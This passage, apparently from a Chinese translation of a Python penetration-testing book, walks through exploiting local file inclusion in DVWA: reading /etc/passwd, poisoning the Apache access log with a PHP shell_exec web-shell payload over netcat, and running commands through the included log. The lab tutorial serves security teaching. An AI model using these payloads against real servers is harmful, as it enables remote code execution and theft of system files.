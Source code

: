 本地文件包含是一种通常在 PHP 应用程序中发现的漏洞类别，是由于对`include()`和`require()`函数的不正确使用而引入的。`include()`函数用于在当前 PHP 文件中包含一个 PHP 模块，从它被调用的地方。有时开发人员会从 Web 应用程序中以输入参数的形式获取要包含的文件的名称，这可能会被攻击者滥用。攻击者可以调整输入参数，并读取系统文件，这些文件可能是他们无法访问的，比如`/etc/passwd`。相同的漏洞可以被升级以从服务器获取反向 shell。如果攻击者能够读取服务器的日志文件，通常位于`/var/log/apache2/access.log`路径下，并且攻击者发送一个伪造的`GET`请求，比如`http://myvulsite.com?id=<?php shell_exec($_GET['cmd']) ?>`，应用程序通常会返回一个错误消息，说请求的 URL/资源不存在。然而，这将被记录在服务器的`access.log`文件中。借助 LFI，如果攻击者在随后的请求中尝试加载访问日志文件，比如`http://myvulsite.com/admin.php?page=/var/log/appache2/access.log?cmd=ifconfig%00`，它会加载日志文件，其中包含一个 PHP 代码片段。这将由 PHP 服务器执行。由于攻击者正在指定 CMD 参数，这将在 shell 中执行，导致在服务器上执行意外的代码。RFI 漏洞更容易执行。让我们通过启动 DVWA 应用程序并尝试手动利用 LFI 漏洞来将我们讨论过的内容付诸实践。

应该注意，我们已经看到如何在第十二章中使用 Python 编写网络服务的利用程序，*逆向工程 Windows 应用程序*，在那里我们编写了一个自定义的 Python 利用程序来利用 SLmail 服务。请参考该章节，以刷新您对针对缓冲区溢出的基于服务的利用程序开发的知识。

# 手动执行 LFI 利用

让我们开始启动 Apache 服务器：

```py
service apache2 start
```

让我们尝试手动浏览应用程序，看看漏洞在哪里：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/hsn-pentest-py/img/22c584ef-a902-4881-b84e-011785536376.png)

前面屏幕中浏览的 URL 是`http://192.168.1.102/dvwa/vulnerabilities/fi/?page=include.php`。可以看到，请求的 URL 有一个 page 参数，它将要包含的页面作为参数。如果我们查看应用程序的源代码，我们可以看到`include()`函数的实现如下：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/hsn-pentest-py/img/4251eb69-3f5b-4576-b281-a35dbac69266.png)

前面的截图将文件变量初始化为在`GET`请求中获得的参数，没有任何过滤。

下一个截图使用与`include()`函数下相同的文件变量如下：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/hsn-pentest-py/img/8edcde7b-3482-447b-80e8-9a7927bc0b64.png)

如上所示，`include()`函数包含`$file`变量的任何值。让我们尝试利用这一点，通过访问以下 URL 读取我们可能无法访问的任何系统文件，比如`/etc/passwd`：`http://192.168.1.102/dvwa/vulnerabilities/fi/?page=/etc/passwd`

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/hsn-pentest-py/img/d2e9ffdb-422e-405e-bc5a-32de76e5524d.png)

现在让我们进一步升级攻击，尝试从 LFI 漏洞中获得 shell。让我们使用`Netcat`来为我们毒害日志文件，以便从服务器获得 shell。

应该注意的是，我们不应该尝试通过 URL 毒害日志文件。这样做将使我们的有效负载编码为 URL 编码，使攻击无效。

让我们首先尝试查看 Apache 日志文件的内容，并在我们的浏览器窗口中使用以下 URL 加载它：`http://192.168.1.102/dvwa/vulnerabilities/fi/?page=/var/log/apache2/access.log`：

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/hsn-pentest-py/img/7bb7967c-dc92-41d6-b24c-c8f020643e36.png)

如前面的截图所示，日志文件的内容显示在页面上。现在让我们继续尝试使用`netcat`毒害日志文件。首先，按以下方式启动 Netcat：`nc 192.168.1.102 80`。一旦启动，向服务器发送以下命令：`http://192.168.1.102/dvwa?id=<?php echo shell_exec($_GET['cmd']);?>`

![](https://github.com/OpenDocCN/freelearn-sec-zh/raw/master/docs/hsn-pentest-py/img/d32a907e-459e-4a88-b7a9-14f67b5ce1d3.png)

中了！我们现在毒害了我们的日志文件。现在让我们尝试发出诸如`ifconfig`之类的命令，看看是否会被执行。我们将浏览的 URL 如下：`http://192.168.1.102/dvwa/vulnerabilities/fi/page=/var/log/apache2/access.log&cmd=ifconfig`。
